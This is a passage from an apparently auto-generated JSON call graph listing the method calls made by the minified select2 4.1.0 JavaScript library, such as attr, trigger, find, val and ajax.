"static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "select2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_detachCloseHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDisabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "display"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "parent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDisabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "selectionContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "display"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "normalizePlaceholder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "selectionContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createPlaceholder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_handleClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_handleKeyboardClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_handleClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prepend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_transferTabIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "resizeSearch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_transferTabIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_handleBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "last"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "searchRemoveChoice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "handleSearch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "resizeSearch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "handleSearch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "copyNonInternalCssClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "unselect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "matches"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_normalizeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateResultId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "addOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "addOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_normalizeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "convertToOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_applyDefaults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "ajax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "fail"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "abort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "transport"}, {"confidence": "EXTRACTED", "relation": "calls", 